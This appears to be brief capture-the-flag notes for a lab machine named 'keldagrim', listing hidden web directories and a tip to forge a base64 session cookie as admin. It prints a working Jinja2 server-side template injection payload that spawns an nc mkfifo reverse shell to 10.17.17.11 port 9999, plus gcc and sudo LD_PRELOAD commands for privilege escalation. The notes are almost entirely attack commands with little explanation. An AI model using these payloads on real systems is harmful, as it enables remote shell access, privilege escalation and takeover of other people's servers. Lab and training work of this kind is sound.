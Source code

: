 # keldagrim
web directories: /wow,  /OSRunescape, /[runescape, /admin](#root/AIB284Wkwuq7)

Jed, jad

base64 session cookie, change to admin

SSTI Exploit
------------

`{{ ''.__class__.__mro__[1].__subclasses__()[401]("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.17.17.11 9999 >/tmp/f", shell=True, stdout=-1).communicate() }}`

nc mkfifo shell is most effective

**Privesc:**
------------

`gcc -fPIC -shared -o shell.so shell.c -nostartfiles`

`sudo LD_PRELOAD=/tmp/shell.so <sudo binary>`